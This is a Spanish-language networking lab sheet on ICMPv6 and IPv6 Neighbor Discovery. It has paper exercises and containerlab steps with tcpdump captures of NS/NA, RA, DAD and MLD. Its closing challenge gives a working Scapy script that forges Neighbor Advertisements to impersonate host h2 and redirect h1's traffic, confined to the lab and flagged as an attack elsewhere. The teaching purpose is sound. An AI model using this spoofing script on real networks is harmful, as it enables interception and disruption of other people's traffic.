

# 03 · Práctica: ICMPv6 y Neighbor Discovery

Antes de empezar, lee la [teoría del módulo](README.md).

## Topología

<!-- topologia:inicio -->

<!-- topologia:fin -->

> El fichero editable para draw.io está en [`lab/topologia.drawio`](lab/topologia.drawio).

- **h1**, **h2**, **h3** y **r1** comparten la LAN `3fff:0:10::/64` a través de **sw1**, un bridge de Linux sin IPv6 que inunda todo el multicast por todos sus puertos (MLD snooping desactivado).
- **r1** envía *Router Advertisements* cada 10 segundos en la LAN y da salida hacia **h4**, en `3fff:0:40::/64`.
- Los hosts de la LAN tienen direcciones fijas (`::10`, `::20`, `::30`) y aprenden el router por defecto con los RA. La autoconfiguración SLAAC está desactivada.

> **Filtros de captura de este módulo.** Los mensajes ICMPv6 sin cabeceras de extensión tienen el *Type* en el byte 40 del paquete IPv6, así que `ip6[40]==135` selecciona los NS, `ip6[40]==136` los NA, etc. Con `-e`, `tcpdump` muestra también las MAC de origen y destino.

## Parte A · Ejercicios en papel

Hazlos sin ordenador. Las soluciones están en [soluciones.md](soluciones.md).

**A1.** Escribe el grupo solicited-node y la MAC multicast que le corresponde a cada dirección:

1. `3fff:0:10::20`
2. `3fff:0:10::1`
3. `fe80::a8c1:abff:fe4e:e3b3`

**A2.** ¿Qué MAC de destino lleva una trama dirigida a `ff02::1`? ¿Y a `ff02::2`?

**A3.** Para cada situación, di qué mensaje ND se envía y con qué direcciones IPv6 de origen y destino:

1. h1 acaba de arrancar y quiere encontrar un router sin esperar.
2. h1 quiere la MAC de `3fff:0:10::20` y no la tiene en su caché.
3. h3 va a empezar a usar `3fff:0:10::33` y quiere comprobar que nadie la tiene.
4. h1 tiene la entrada de h2 en `STALE` y le envía un paquete.

**A4.** h1 envía un paquete a h4 (`3fff:0:40::40`). ¿Por la MAC de quién pregunta h1? ¿Y r1, cuando reenvía el paquete hacia h4?

**A5.** Un atacante en otra red, a varios saltos de distancia, envía un NA falso dirigido a h1. ¿Por qué h1 lo ignora?

**A6.** Un administrador bloquea en el cortafuegos de un host los ICMPv6 de tipos 135 y 136 "porque no los usa". ¿Qué deja de funcionar?

## Parte B · Laboratorio

### B0. Levantar el laboratorio

```bash
$ cd 03-icmpv6-nd/lab
$ sudo containerlab deploy -t lab.clab.yml
$ ./verificar.sh
```

Si todas las comprobaciones salen en verde, empieza la práctica. Recuerda: lanza primero la captura en una terminal y después la acción en otra.

### B1. Resolución de direcciones, paso a paso

Captura en h2 los NS y NA:

```bash
$ docker exec clab-m03-h2 tcpdump -ni eth1 -e -vv 'icmp6 and (ip6[40]==135 or ip6[40]==136)'
```

Vacía las cachés de vecinos de h1 y h2 y haz un ping:

```bash
$ docker exec clab-m03-h1 ip -6 neigh flush dev eth1
$ docker exec clab-m03-h2 ip -6 neigh flush dev eth1
$ docker exec clab-m03-h1 ping -c1 3fff:0:10::20
```

1. En el NS, ¿cuáles son las direcciones IPv6 y MAC de origen y destino? ¿Qué dirección se pregunta (`who has`)?
2. ¿Qué opción lleva el NS y para qué le sirve a h2?
3. En el NA, ¿a qué dirección va dirigido? ¿Qué flags lleva y qué significan?
4. Mira la caché de h1. ¿En qué estado está la entrada de h2?

   ```bash
   $ docker exec clab-m03-h1 ip -6 neigh show dev eth1
   ```

### B2. ¿Lo ve h3?

Repite B1 capturando en **h3** en lugar de en h2:

```bash
$ docker exec clab-m03-h3 tcpdump -ni eth1 -e -vv 'icmp6 and (ip6[40]==135 or ip6[40]==136)'
```

1. ¿Ve h3 el NS? ¿Y el NA? ¿Por qué?
2. ¿Responde h3 al NS?
3. `tcpdump` pone la tarjeta en modo promiscuo y lo ve todo. Mira a qué MAC multicast está suscrita realmente la tarjeta de h3:

   ```bash
   $ docker exec clab-m03-h3 ip maddr show dev eth1
   ```

   Sin `tcpdump`, ¿llegaría al sistema operativo de h3 el NS de B1?

### B3. Los estados de la caché

Haz un ping a h2 y observa la entrada durante un minuto:

```bash
$ docker exec clab-m03-h1 ping -c1 3fff:0:10::20
$ for i in $(seq 1 12); do docker exec clab-m03-h1 ip -6 neigh show 3fff:0:10::20; sleep 5; done
```

1. ¿Cuánto tiempo pasa en REACHABLE antes de pasar a STALE?

Ahora, con la entrada en STALE, captura en h2 (como en B1) y haz otro ping mientras sigues la entrada segundo a segundo:

```bash
$ docker exec clab-m03-h1 ping -c1 3fff:0:10::20
$ for i in $(seq 1 8); do docker exec clab-m03-h1 ip -6 neigh show 3fff:0:10::20; sleep 1; done
```

2. ¿Por qué estados pasa la entrada? ¿Cuánto tiempo está en cada uno?
3. En la captura, ¿a qué dirección y MAC va ahora el NS? ¿Por qué es distinto del de B1?
4. El ping ha funcionado aunque la entrada estaba en STALE. ¿Por qué?

### B4. Hablar con otra red

```bash
$ docker exec clab-m03-h1 ip -6 neigh flush dev eth1
$ docker exec clab-m03-h1 ip -6 route get 3fff:0:40::40
$ docker exec clab-m03-h1 ping -c2 3fff:0:40::40
$ docker exec clab-m03-h1 ip -6 neigh show dev eth1
```

1. ¿A qué dirección envía h1 los paquetes para h4?
2. ¿Qué entradas hay en la caché después del ping? ¿Aparece h4? ¿Qué significa la palabra `router` en una de ellas?

### B5. El Router Advertisement de r1

Captura los RA periódicos en h1 (r1 los envía cada 10 segundos):

```bash
$ docker exec clab-m03-h1 tcpdump -ni eth1 -vv 'icmp6 and ip6[40]==134'
```

1. ¿Desde qué dirección de r1 llega el RA y a qué dirección de destino va? ¿Con qué Hop Limit?
2. Localiza en el RA: el *router lifetime*, el prefijo anunciado con sus flags (`onlink`, `auto`) y la MAC de r1.
3. ¿Por qué el prefijo **no** lleva el flag `auto`? (Pista: mira en el `lab.clab.yml` la opción `autoconf`.)

> **La regla del Hop Limit 255.** En teoría, r1 debería ignorar un RS que no llegue con Hop Limit 255. Puedes probarlo, pero no te sorprendas si no cambia nada: el kernel de este laboratorio no aplica esa comprobación (lo explicamos en la teoría). La regla es real en el RFC y es la razón por la que un atacante no puede inyectar ND desde fuera de la LAN… en implementaciones que sí la respetan.
>
> ```bash
> $ docker exec clab-m03-h1 python3 -c "from scapy.all import *; send(IPv6(dst='ff02::2',hlim=64)/ICMPv6ND_RS(),iface='eth1')"
> ```

### B6. Detección de direcciones duplicadas

Captura en h2:

```bash
$ docker exec clab-m03-h2 tcpdump -ni eth1 -e -vv 'icmp6 and (ip6[40]==135 or ip6[40]==136)'
```

Intenta configurar en h3 la dirección de h2:

```bash
$ docker exec clab-m03-h3 ip -6 addr add 3fff:0:10::20/64 dev eth1
$ sleep 2
$ docker exec clab-m03-h3 ip -6 addr show dev eth1
```

1. ¿Qué dirección de origen lleva el NS de h3? ¿Por qué esa?
2. ¿Quién responde, y a qué dirección?
3. ¿En qué estado queda la dirección en h3? ¿Se puede usar?
4. ¿Ha dejado de funcionar h2? Compruébalo con un ping desde h1.

Deja h3 como estaba:

```bash
$ docker exec clab-m03-h3 ip -6 addr del 3fff:0:10::20/64 dev eth1
```

### B7. Cuando nadie responde

```bash
$ docker exec clab-m03-h1 ping -c2 3fff:0:10::99
$ docker exec clab-m03-h1 ip -6 neigh show 3fff:0:10::99
```

1. ¿Qué mensaje muestra `ping` y quién lo genera?
2. ¿En qué estado queda la entrada? ¿Cuántos NS crees que ha enviado h1 antes de rendirse? (Si quieres comprobarlo, captura en h2 como en B1.)

### B8. MLD: avisar de que te unes a un grupo

Captura en h2 todo lo que lleve cabecera Hop-by-Hop (`ip6[6]==0`):

```bash
$ docker exec clab-m03-h2 tcpdump -ni eth1 -vv 'ip6[6]==0'
```

Añade una dirección nueva a h3:

```bash
$ docker exec clab-m03-h3 ip -6 addr add 3fff:0:10::33/64 dev eth1
```

1. ¿Qué mensaje envía h3 y a qué dirección?
2. ¿A qué grupo dice que se une? ¿Por qué ese?
3. ¿Qué opción lleva la cabecera Hop-by-Hop?
4. Comprueba en h3 que ahora pertenece a ese grupo:

   ```bash
   $ docker exec clab-m03-h3 ip -6 maddr show dev eth1
   ```

### B9. Limpieza

```bash
$ sudo containerlab destroy -t lab.clab.yml --cleanup
```

## Reto: suplantar a h2

Neighbor Discovery no tiene autenticación. Desde h3, envía NA falsos que digan que `3fff:0:10::20` (h2) tiene la MAC de h3:

1. Asegúrate de que h1 conoce a h2 y apunta su MAC:

   ```bash
   $ docker exec clab-m03-h1 ping -c1 3fff:0:10::20
   $ docker exec clab-m03-h1 ip -6 neigh show 3fff:0:10::20
   $ docker exec clab-m03-h3 ip link show eth1 | grep ether
   ```

2. Captura en h3 el tráfico dirigido a h2:

   ```bash
   $ docker exec clab-m03-h3 tcpdump -ni eth1 'icmp6 and dst 3fff:0:10::20 and ip6[40]==128'
   ```

3. Envía los NA falsos (uno por segundo durante 20 segundos) y, mientras tanto, haz ping desde h1 a h2:

   ```bash
   $ docker exec clab-m03-h3 python3 -c "
   from scapy.all import *
   mac = get_if_hwaddr('eth1')
   na = (IPv6(src='3fff:0:10::20', dst='ff02::1', hlim=255)
         / ICMPv6ND_NA(tgt='3fff:0:10::20', R=0, S=0, O=1)
         / ICMPv6NDOptDstLLAddr(lladdr=mac))
   send(na, iface='eth1', count=20, inter=1)"
   ```

   ```bash
   $ docker exec clab-m03-h1 ping -c10 3fff:0:10::20
   $ docker exec clab-m03-h1 ip -6 neigh show 3fff:0:10::20
   ```

¿Qué MAC tiene ahora h1 para h2? ¿Llegan los ping a h2? ¿Qué ve h3? ¿Qué pasa unos segundos después de que h3 deje de enviar NA falsos? ¿Qué medida de un switch habría evitado el ataque?

> Haz esta prueba solo en tu laboratorio. Suplantar a otros equipos en una red que no es tuya es un ataque.
